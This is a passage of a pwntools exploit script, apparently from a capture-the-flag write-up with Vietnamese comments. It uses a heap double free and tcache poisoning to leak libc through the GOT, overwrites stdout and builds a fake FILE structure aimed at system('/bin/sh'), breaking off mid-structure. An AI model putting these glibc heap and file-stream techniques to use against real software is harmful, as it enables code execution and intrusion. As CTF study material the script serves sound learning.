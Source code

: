 ```python=
w(b'0'*8+p64(0xcafef00d))
er()

# Poisoning for libc leak
fake = gen(heap_base+0x2d0, exe.sym.ptr-8)
info("Fake: "+hex(fake))
w(p64(fake))
buy(0x200, b'abc')
buy(0x200,p64(0x201)+p64(exe.got.puts))
read()
ru(b'Content: ')
lib = u64(r(6)+b'\0\0')
info("Libc leak: "+hex(lib))
libc.address = lib - 0x80ed0
info("Libc base: "+hex(libc.address))

#Double free again
buy(512, b'abc')
er()
w(b'0'*8+ p64(0xcafef00d))
er()

#Overwrite there for stdout overwrite
stdout = gen(heap_base+0x4b0,libc.address + 0x21a780)
info("Stdout: "+hex(stdout))
w(p64(stdout))

#Malloc for IO stdout overwrite
buy(512, b'\0')

#Build fake frame for shell | stack leak
lock = libc.address + 0x21ba70
vta = libc.sym._IO_wfile_jumps - 0x18
stdout = libc.sym._IO_2_1_stdout_
wdata = libc.address + 0x2199a0
adr = libc.sym.environ
sys = libc.sym.system
bis = u64(b"/bin/sh\0")
gad = libc.address + 0x0000000000163830
#Shell
# IO_file_fake = flat(
#     0x3b01010101010101,    # 0x00      0       - Ghi đè `_flags`
#     0,                     # 0x08      8       - `_IO_read_ptr`
#     sys,                     # 0x10      16      - `_IO_read_end`
#     0,                     # 0x18      24      - `_IO_read_base`
#     0,                     # 0x20      32      - `_IO_write_base`
#     bis,                     # 0x28      40      - `_IO_write_ptr`
#     0,                     # 0x30      48      - `_IO_write_end`
#     0,                     # 0x38      56      - `_IO_buf_base`
#     gad,                     # 0x40      64      - `_IO_buf_end`
#     0,                     # 0x48      72      - `_IO_save_base`
#     0,                     # 0x50      80      - `_IO_backup_base`
#     0,                     # 0x58      88      - `_IO_save_end`
#     0,                     # 0x60      96      - `_markers`
#     0,                     # 0x68      104     - `_chain`,
#     0,                     # 0x70      112     - `_flagno`
#     0,                     # 0x78      120     - `_flags2`
#     0,                     # 0x80      128     - `_old_offset`
#     lock,                  # 0x88      136     - `_lock`
#     0,                     # 0x90      144     - `_unused1`
#     stdout+168,                     # 0x98      152     - `_codecvt
#     wdata,                     # 0xa0      160     - `_wide_data`
#     stdout+24,                     # 0xa8      168     - `unknown2`
```